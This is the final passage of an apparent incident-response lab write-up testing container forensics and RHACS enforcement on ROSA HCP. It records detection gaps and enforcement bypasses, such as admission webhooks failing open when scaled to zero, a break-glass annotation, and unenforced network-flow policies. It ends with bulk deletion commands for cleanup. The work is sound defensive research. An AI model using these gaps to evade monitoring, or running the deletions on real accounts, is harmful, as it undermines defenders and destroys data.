- **Reuse more than 1 hour after issue is flagged**: `authentication.k8s.io/stale-token: "subject: system:serviceaccount:forensics-victim:victim-sa, seconds after warning threshold: 73"`.
- **`sourceIPs` is an internal hosted-control-plane address for every caller**, including requests from outside the cluster. **You can't detect off-cluster token use by IP on ROSA HCP.** Use the JTI, the stale-token annotation and behaviour instead.
- **CloudTrail records the real public source IP** for `AssumeRoleWithWebIdentity` and for the stolen session's calls. Off-cluster misuse of a workload IAM role *can* be detected by IP.
- A pod killed by RHACS shows as `delete pods by system:serviceaccount:stackrox:sensor`.

Merged into one UTC timeline, these sources reproduced every attack and response step within seconds.

## 8. RHACS enforcement and the responder

These checks show what RHACS enforcement does to an investigation.

**Inline blocking works on HCP.** A runtime policy on `Kubernetes Resource = PODS_EXEC` with `FAIL_KUBE_REQUEST_ENFORCEMENT` blocks `oc exec`:

```
Error from server (Failed currently enforced policies from RHACS): admission webhook "k8sevents.stackrox.io" denied the request
```



**Enforcement fails open.** The admission webhooks use `failurePolicy: Ignore` (12 s timeout). With `admission-control` scaled to 0 replicas, exec was allowed, the operator didn't restore the replicas within a minute, and Central still reported `overallHealthStatus: HEALTHY`. Alert on changes to `deployments/scale` in the `stackrox` namespace.

**Enforced policies can block your own forensic tools.** With an exec/attach policy and a deploy-time privileged-container policy enforced in the forensics namespace, `oc debug node` and `oc exec` into the collector pod were both denied:





The checkpoint call (`nodes/proxy`) is never intercepted. The `admission.stackrox.io/break-glass` annotation bypasses deploy-time enforcement and is logged, but `oc debug` can't add annotations. Exclude your forensics namespace from these policies, or keep pre-built, annotated collector manifests.

> **Note:** Deploy-time blocking needs the `SCALE_TO_ZERO_ENFORCEMENT` and `UNSATISFIABLE_NODE_CONSTRAINT_ENFORCEMENT` actions, which are what the UI sets. Policy scope labels match **Deployment** labels, not pod-template labels.

**Kill-pod destroys the evidence.** With `KILL_POD_ENFORCEMENT` on unexpected processes, the attacker's exec was killed (exit 137) within about 1 second. The pod was deleted and replaced, and its writable layer disappeared from the node, so a checkpoint was impossible. Only the RHACS alert remains, now under **Resolved**:





**Network-flow policies don't enforce.** RHACS accepted `KILL_POD_ENFORCEMENT` on an "Unexpected Network Flow Detected" policy and raised the alert, but didn't kill the pod. External peers appear only as **External Entities**:





## Findings

| Area | Result on ROSA HCP 4.22 with RHACS 5.0 |
|---|---|
| Kubelet checkpoint API | ✅ Works through `nodes/proxy`. KB RBAC not needed. Memory, process tree, sockets and environment captured; the container keeps running. |
| Containers with live TCP connections | ⚠️ Checkpoint fails until the sockets are closed with `ss -K`. Capture socket state first. |
| Checkpoint file diff | ⚠️ Misses modified files. Also collect the node overlay `upperdir`. |
| Isolation | ✅ NetworkPolicy and relabel cut C2; the pod survives and probes keep passing. |
| Volume, image, logs, node journal | ✅ All work. Cross-namespace volume analysis needs a static snapshot import and an `spc_t` reader. |
| Control-plane audit (RHACS) | ❌ RHACS audit-log policies don't work on HCP. Use forwarded logs in your SIEM. |
| Control-plane audit (forwarded) | ✅ Token JTI, source pod and stale-token are visible. ❌ Client IP is not. |
| CloudTrail | ✅ Real source IP for AWS role misuse. |
| RHACS runtime detection | ✅ Processes, lineage, exec text, file activity (container, and node for host processes). ❌ Failed execs, processes already in the baseline, namespaced API paths in the default policy. |
| RHACS enforcement | ✅ Exec blocking. ⚠️ Fails open, and Central stays HEALTHY. ⚠️ Can block responders. ❌ No enforcement on network flows. ⚠️ Kill-pod destroys evidence. |
| Credential revocation | ✅ ServiceAccount recreation gives 401; IAM "revoke active sessions" blocks the stolen session. |

## Cleanup

```bash
rosa edit machinepool -c $CLUSTER --autorepair=true forensics
oc delete ns forensics-victim forensics-c2 forensics-tools forensics-analysis
oc delete volumesnapshotcontent victim-d-evidence-import
aws ec2 delete-snapshot --snapshot-id $SNAPH
oc delete securedcluster --all -n stackrox; oc delete central --all -n stackrox
oc delete ns stackrox rhacs-operator
oc delete clusterrole forensic-responder; oc delete clusterrolebinding forensic-responder
rosa delete machinepool -c $CLUSTER forensics -y; rosa delete machinepool -c $CLUSTER acs -y
rosa delete log-forwarder -c $CLUSTER <forwarder-id> -y
aws iam delete-role-policy --role-name forensics-victim-role --policy-name AWSRevokeOlderSessions
aws iam delete-role --role-name forensics-victim-role
aws iam delete-role-policy --role-name CustomerLogDistribution-$CLUSTER --policy-name logfwd
aws iam delete-role --role-name CustomerLogDistribution-$CLUSTER
aws logs delete-log-group --log-group-name ctllogfwd-$CLUSTER
# After the Object Lock retention period expires. Object Lock buckets are versioned,
# so delete every object version; `aws s3 rm` would only add delete markers.
aws s3api delete-objects --bucket $BUCKET --delete "$(aws s3api list-object-versions --bucket $BUCKET \
  --query '{Objects: Versions[].{Key: Key, VersionId: VersionId}}' --output json)"
aws s3api list-object-versions --bucket $BUCKET --query 'length(DeleteMarkers || `[]`)'   # if > 0, delete them the same way
aws s3api delete-bucket --bucket $BUCKET
```

## References

* [Red Hat KB 7008477: Forensic container checkpointing in OpenShift Container Platform 4](https://access.redhat.com/solutions/7008477)
* [Kubernetes: Kubelet Checkpoint API](https://kubernetes.io/docs/reference/node/kubelet-checkpoint-api/)
* [checkpointctl](https://github.com/checkpoint-restore/checkpointctl)
* [RHACS 5.0 documentation](https://docs.redhat.com/en/documentation/red_hat_advanced_cluster_security_for_kubernetes/5.0)
* [Kubernetes: Managing service accounts (bound tokens, credential ID, legacy tokens)](https://kubernetes.io/docs/reference/access-authn-authz/service-accounts-admin/)
* [AWS EKS Best Practices: Incident response and forensics](https://docs.aws.amazon.com/eks/latest/best-practices/incident-response-and-forensics.html)
